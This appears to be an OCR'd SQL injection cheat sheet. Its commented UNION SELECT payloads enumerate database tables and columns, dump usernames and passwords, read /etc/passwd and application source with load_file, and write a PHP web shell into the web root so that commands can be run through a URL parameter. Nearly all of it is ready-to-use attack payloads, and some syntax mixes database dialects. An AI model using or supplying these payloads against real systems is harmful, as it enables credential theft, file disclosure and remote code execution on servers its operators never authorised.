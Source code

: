 # Get all tables
?id=1 union select 1,2,3,4,table_name,6,7,8,9 from all_tables where owner ='dbs'-- -

# Get all columns from a specific columns
?id=1 union select 1,2,3,4,column_name,6,7,8,9 from all_tab_columns where table_name ='tables'-- -

# Get content from the users-table. From columns name and password. (The 0x3a only servers to create a delimiter between name and password)
?id=1 union select 1,2,3,4,password||':'||username,6,7,8,9 from users-- -

# read file
?id=1 union select 1,2,3,4, load_file('/etc/passwd') ,6,7,8,9 from dual-- -
?id=1 union select 1,2,3,4, load_file('/var/www/login.php') ,6,7,8,9 from dual-- -

# create a file and call it to check if really created
?id=1 union select 1,2,3,4,'this is a test message' ,6,7,8,9 into outfile '/var/www/test' from dual-- -
?id=1 union select 1,2,3,4, load_file('/var/www/test') ,6,7,8,9-- -
	
# create a file to get a shell
?id=1 union select null,null,null,null,'<?php system($_GET[‘cmd’]) ?>' ,6,7,8,9 into outfile '/var/www/shell.php'from dual-- -
?id=1 union select null,null,null,null, load_file('/var/www/shell.php') ,6,7,8,9 -- -

# then go to browser and see if you can execute commands
http://<targetip>/shell.php?cmd=id
  

  
  
